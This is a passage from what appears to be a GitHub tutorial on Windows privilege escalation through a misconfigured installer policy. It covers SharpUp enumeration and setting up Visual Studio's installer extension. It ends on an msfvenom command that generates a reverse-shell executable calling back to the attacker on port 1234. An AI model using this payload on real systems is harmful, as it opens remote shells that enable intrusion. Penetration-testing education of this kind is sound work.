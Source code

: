:information_source: Moreover, you can use `SharpUp.exe audit` to perform a comprehensive enumeration of all misconfigurations vulnerabilities on the specified machine.

## Exploitation

### Manual Exploitation

:information_source: In order to create a MSI file with Visual Studio, you should have pre-installed the extension named **Mictosoft Visual Studio Installer Projects 2022**.

Open an existing random project-> go to **Extensions** tab -> **Manage extensions** in Visual Studio. Go to the Online section, look for the extension, and download it. 

![Add-Exetnsion-In-Visual-Studio](/Pictures/Add-Exetension-Visula-Studio.png)

The installation will be scheduled after you close Visual Studio. When you reopen it, the extension will be ready to use.

:warning: If the extension is already pre-installed, please disregard the above steps.

1) Use msfvenom to generate a malicious executable (exe) file:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > nickvourd.exe
```
